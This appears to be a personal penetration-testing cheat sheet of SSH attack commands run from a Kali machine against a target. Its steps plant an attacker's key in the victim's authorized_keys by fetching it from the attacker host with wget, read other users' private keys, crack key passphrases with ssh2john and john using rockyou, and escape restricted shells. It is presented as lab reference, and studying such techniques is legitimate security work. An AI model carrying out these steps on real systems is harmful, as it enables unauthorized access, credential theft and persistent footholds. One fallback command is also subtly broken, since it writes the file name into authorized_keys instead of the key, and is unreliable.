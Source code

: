 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### SSH Enuemration
```bash - kali
ssh $TARGET -p 22
```

#### Generate key upload to victim
Target:
```bash - target
cd ~
```

```bash - target
mkdir .ssh && cd .ssh
```

Kali:
```bash - kali
ssh-keygen
```

```bash - kali
cp /home/kali/.ssh/id_rsa* .
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Target:
```bash - target
wget http://$KALI/id_rsa.pub
```

```bash - target
mv id_rsa.pub authorized_keys
```

Grant proper permissions (0700 for **~/.ssh** and 0644 for **~/.ssh/authorized_keys**).

Kali:
```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```

If that fails, try:
```bash - kali
echo id_rsa.pub > ~/.ssh/authorized_keys
```

Then:
```bash - kali
ssh $USER@$TARGET
```

#### id_rsa

Target:
```bash
cat /home/user/.ssh/id_rsa
```

Kali, copy value to local id_rsa file:
```bash
sudo chmod 600 id_rsa
```

```bash
ssh -i id_rsa $USER@$TARGET -p 2222
```

#### Disable login scripts

Kali:
```bash - kali
ssh $USER@$TARGET -t 'bash --noprofile'
```

#### ssh2john keyphrase
```bash
locate ssh2john
```

OR

```bash
wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
```

```python
python3 /usr/share/john/ssh2john.py id_rsa > key.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt key.txt
```

#### [Error] no matching host key exchange type found.
```bash - kali
ssh $TARGET -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc -p 22
```

```bash - kali
ssh $TARGET -oHostKeyAlgorithms=+ssh-dss -p 22
```

#### Escaping from rbash
```bash
ssh $USER@$TARGET -t "bash --noprofile"
```